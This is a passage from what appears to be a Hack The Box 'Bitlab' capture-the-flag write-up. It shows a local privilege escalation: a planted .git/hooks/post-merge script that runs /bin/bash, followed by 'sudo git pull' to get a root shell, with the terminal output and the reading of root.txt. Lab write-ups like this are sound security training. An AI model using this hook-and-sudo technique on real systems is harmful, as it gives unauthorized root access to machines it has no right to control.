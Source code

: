 We create a script named as ```post-merge``` inside ```.git/hooks``` to get a shell as root and give to it execution rights:

```console
www-data@bitlab:/tmp/profile$ cd .git/hooks
cd .git/hooks
www-data@bitlab:/tmp/profile/.git/hooks$ echo 'exec /bin/bash 0<&2 1>&2' > post-merge
< 'exec /bin/bash 0<&2 1>&2' > post-merge
www-data@bitlab:/tmp/profile/.git/hooks$ chmod u+x post-merge
chmod u+x post-merge
```

once that is done, we upload any file (doesn't matter) to gitlab and merge it, once that is done from inside this location we have rights, we run ```sudo git pull``` and with that we will be root:

```console
www-data@bitlab:/tmp/profile$ sudo git pull
sudo git pull
remote: Enumerating objects: 4, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (3/3), done.
Unpacking objects: 100% (3/3), done.
remote: Total 3 (delta 2), reused 0 (delta 0)
From ssh://localhost:3022/root/profile
   35da5b2..cbbc729  master     -> origin/master
 * [new branch]      patch-2    -> origin/patch-8
Updating 35da5b2..cbbc729
Fast-forward
 1asf | 1 +
 1 file changed, 1 insertion(+)
 create mode 100644 1asf
root@bitlab:/tmp/profile# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bitlab:/tmp/profile# cd /root    
cd /root
root@bitlab:~# ls   
ls 
root.txt
root@bitlab:~# wc -c root.txt
wc -c root.txt
33 root.txt
```

with this we can already go to ```/home``` and see from there which user and it's respective flag.

## Beyond root

Ok, as I said at the begining of the post, there are 2 paths to get this box:

1 - Intended way (user -> root) by doing reversing.
2 - Taking advantage of this misconfigurations.

I will go now into the 1, but I will only cover how to get user, and in the future once I know some reversing, I will post the last piece.
